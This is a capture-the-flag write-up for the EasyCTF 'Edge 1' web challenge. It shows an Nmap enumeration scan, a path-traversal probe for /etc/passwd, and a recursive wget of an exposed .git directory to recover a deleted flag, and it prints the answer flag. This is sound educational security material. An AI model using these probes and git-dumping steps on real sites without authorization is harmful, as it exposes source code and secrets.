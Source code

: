 # Edge 1 - 100 points

We found Edge inc's website! Take a look at it [here](http://edge1.web.easyctf.com/).

### Solutions

The linked page, `http://edge1.web.easyctf.com/`, didn't expose a lot of obvious attack surface.
It seemed to be mostly static HTML; what CSS and JavaScript there was, appeared to be standard Bootstrap and jQuery.
We found directory listings at `http://edge1.web.easyctf.com/css/` and `http://edge1.web.easyctf.com/js/`, but they weren't helpful.
We inspected the HTTP headers and found nothing unusual.

We idly tried various URL paths, like `/index.html.bak`, `/index.html.swp`, `/%`, `/%20`, and `/../../../../../../../../etc/passwd`,
but none of them led anywhere.
Finally we tried the Nmap <a href="https://nmap.org/nsedoc/scripts/http-enum.html">http-enum</a> script,
which tests for the existence of [thousands of common URL paths](https://svn.nmap.org/nmap/nselib/data/http-fingerprints.lua?p=36661).
It hit the jackpot by finding a `/.git` directory:

```
$ nmap --script 'http-enum' -v edge1.web.easyctf.com -p80 -oN http-enum.nmap

...
Completed NSE at 19:41, 169.53s elapsed
Nmap scan report for edge1.web.easyctf.com (104.31.94.100)
Host is up (0.0038s latency).
Other addresses for edge1.web.easyctf.com (not scanned): 104.31.95.100
PORT   STATE SERVICE
80/tcp open  http
| http-enum:
|   /.git/HEAD: Git folder
|   /css/: Potentially interesting directory w/ listing on 'apache/2.4.7 (ubuntu)'
|_  /js/: Potentially interesting directory w/ listing on 'apache/2.4.7 (ubuntu)'
```

The `/.git` directory was probably where the flag was.
We tried directly cloning the repo, but that didn't work,
probably because the repo hadn't run [`git update-server-info`](https://www.kernel.org/pub/software/scm/git/docs/githooks.html#post-update),
which is needed for cloning a repo over HTTP:

```
$ git clone -v http://edge1.web.easyctf.com/.git
Cloning into 'edge1.web.easyctf.com'...
fatal: repository 'http://edge1.web.easyctf.com/.git/' not found
```

Instead, we took the brute-force approach of recursively downloading the entire `/.git` directory:

```
$ wget -r -np http://edge1.web.easyctf.com/.git
```

From there, all we had to do was enter the directory and inspect the revision history
with [`git log`](https://www.git-scm.com/docs/git-log), then retrieve the flag with
[`git show`](https://www.git-scm.com/docs/git-show):

```
$ cd edge1.web.easyctf.com/
$ git log
commit ee9061b25d8a35bae8380339f187b44dc26f4999
Author: Michael <michael@easyctf.com>
Date:   Mon Mar 13 07:11:47 2017 +0000

    Whoops! Remove flag.

commit afdf86202dc8a3c3d671f2106d5cffa593f2b320
Author: Michael <michael@easyctf.com>
Date:   Mon Mar 13 07:11:45 2017 +0000

    Initial.

commit 15ca375e54f056a576905b41a417b413c57df6eb
Author: Fernando <fermayo@gmail.com>
Date:   Sat Dec 14 12:50:09 2013 -0300

    initial version

commit 8ac4f76df2ce8db696d75f5f146f4047a315af22
Author: Fernando Mayo <fermayo@gmail.com>
Date:   Sat Dec 14 07:36:18 2013 -0800

    Initial commit
```

```
$ git show
commit ee9061b25d8a35bae8380339f187b44dc26f4999
Author: Michael <michael@easyctf.com>
Date:   Mon Mar 13 07:11:47 2017 +0000

    Whoops! Remove flag.

diff --git a/flag.txt b/flag.txt
deleted file mode 100644
index a1009d9..0000000
--- a/flag.txt
+++ /dev/null
@@ -1 +0,0 @@
-easyctf{w3_ev3n_u53_git}
```

Flag:
```
easyctf{w3_ev3n_u53_git}
```

### External Writeups
